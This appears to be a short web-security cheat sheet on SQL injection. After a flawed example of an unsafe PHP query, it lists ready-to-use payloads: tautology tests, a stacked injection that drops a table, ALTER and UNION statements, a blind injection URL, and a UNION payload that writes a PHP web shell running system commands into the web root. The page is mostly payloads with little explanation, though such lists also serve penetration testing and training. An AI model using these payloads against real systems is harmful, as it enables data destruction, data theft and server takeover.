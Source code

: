 # SQL Injection
[HOME](/index.html) / [Web](/Web)

## The basics

How an example of unsecure sql statement looks like:

<pre>
$SQL = "SELECT * FROM <i>{tablename}</i> WHERE <i>{username}</i> = ' + <b><i>$_POST["username"]</i></b> + ' AND ' + <b><i>$_POST['password']</i></b>'";
</pre>

To break the statement:

<pre>
$SQL = "SELECT * FROM <i>{tablename}</i> WHERE <i>{username}</i> = ' + <b><i>1' OR 1+1--</i></b> + ' AND ' + <b><i>$_POST['password']</i></b>'";
</pre>

### Simple SQL injection test
```SQL
'
1' OR 1+1--
\'
```
### Stacked injection; Where table name is known
```SQL
1'; DROP TABLE {tablename} --
```
### Where column name is known
```SQL
1'; ALTER TABLE {tablename} ALTER COLUMN {columnname} {datatype} --
1' UNION SELECT {columnname} FROM {tablename};--
1' UNION ALL SELECT {columnname} FROM {tablename};--
```

<br>

## Blind injection
Apply in URL
```SQL
www.example.com/xxx.php?id=1 or 1=1
```

## RCE with UNION
```
123' UNION SELECT '<?php echo system("ls -la /");?>','2','3','4','5' into outfile '/var/www/html/shell.php'#
```
